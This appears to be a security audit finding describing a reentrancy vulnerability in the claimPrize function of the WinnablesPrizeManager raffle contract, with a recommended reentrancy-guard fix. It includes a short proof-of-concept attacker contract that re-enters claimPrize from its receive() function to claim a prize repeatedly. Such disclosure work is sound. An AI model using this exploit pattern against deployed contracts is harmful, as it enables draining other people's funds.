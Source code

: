 Deep Crimson Cuckoo

High

# Reentrancy in claimPrize Function

## Summary

The `claimPrize` function in the WinnablesPrizeManager contract is vulnerable to reentrancy due to its failure to adhere to the Checks-Effects-Interactions (CEI) pattern, or implement a reentrancy guard. This vulnerability could potentially allow a malicious contract that has won a raffle to claim a prize multiple times.

## Vulnerability Detail

The `claimPrize` function performs external calls (sending ETH, tokens, or NFTs) before updating the raffle status to "CLAIMED". This order of operations, with no reentrancy guard, creates a window for reentrancy attacks. Here's the relevant code snippet:

```solidity
function claimPrize(uint256 raffleId) external {
    // ... (checks)

    if (raffleType == RaffleType.NFT) {
        // ... (NFT transfer logic)
    } else if (raffleType == RaffleType.TOKEN) {
        // ... (token transfer logic)
    } else if (raffleType == RaffleType.ETH) {
        unchecked { _ethLocked -= _ethRaffles[raffleId]; }
        _sendETHPrize(_ethRaffles[raffleId], msg.sender);
    } else revert InvalidRaffle();

    // State update occurs after external calls
    rafflePrize.status = RafflePrizeStatus.CLAIMED;
    emit PrizeClaimed(raffleId, msg.sender);
}
```

The issue lies in the fact that the raffle status is updated after the prize is sent. If the winner is a malicious contract, it could potentially re-enter the `claimPrize` function during the prize transfer, allowing multiple claims before the status is updated.

## Impact

This vulnerability could allow a malicious raffle winner, that is a contract, to claim the same prize multiple times, draining the contract of more funds than intended.


## Proof of Concept

```solidity
contract MaliciousWinner {
    WinnablesPrizeManager public prizeManager;
    uint256 public raffleId;
    uint256 public claimCount;

    constructor(WinnablesPrizeManager _prizeManager, uint256 _raffleId) {
        prizeManager = _prizeManager;
        raffleId = _raffleId;
    }

    function attack() external {
        prizeManager.claimPrize(raffleId);
    }

    receive() external payable {
        if (claimCount < 3) {
            claimCount++;
            prizeManager.claimPrize(raffleId);
        }
    }
}
```

This malicious contract, when set as the winner of a raffle, could potentially claim the prize multiple times by re-entering the `claimPrize` function during the ETH transfer.


## Code Snippet

https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesPrizeManager.sol#L105-L124

## Tool used

Manual Review

## Recommendation

Add a reentrancy guard to claimPrize (from OpenZeppelin or a custom implementation as seen below)

Reentrancy guard modifier:

```solidity
bool private _locked;

modifier noReentrant() {
    require(!_locked, "No reentrancy");
    _locked = true;
    _;
    _locked = false;
}

function claimPrize(uint256 raffleId) external noReentrant {
    // ... (function body)
}
```

These changes will ensure that the contract state is updated before any external calls are made, preventing reentrancy attacks and maintaining the integrity of the prize claiming process.